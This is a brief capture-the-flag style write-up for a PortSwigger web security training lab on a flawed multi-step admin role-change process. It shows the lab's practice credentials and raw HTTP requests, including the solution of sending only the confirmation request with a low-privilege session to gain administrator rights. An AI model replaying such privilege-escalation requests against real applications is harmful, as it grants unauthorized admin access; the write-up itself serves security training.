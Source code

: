 # [Lab: Multi-step process with no access control on one step](https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step)

This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials  `administrator:admin`.

To solve the lab, log in using the credentials  `wiener:peter`  and exploit the flawed  [access controls](https://portswigger.net/web-security/access-control)  to promote yourself to become an administrator.

## Analysis

multi-step upgrade `wiener` account:

```http
POST /admin-roles HTTP/1.1
Cookie: session=adminsession

username=wiener&action=upgrade
```

```http
POST /admin-roles HTTP/1.1
Cookie: session=adminsession

action=upgrade&confirmed=true&username=wiener
```

## Solutions

only send the second request with wiener session:

```http
POST /admin-roles HTTP/1.1
Cookie: session=wienersession

action=upgrade&confirmed=true&username=wiener
```

=> solved
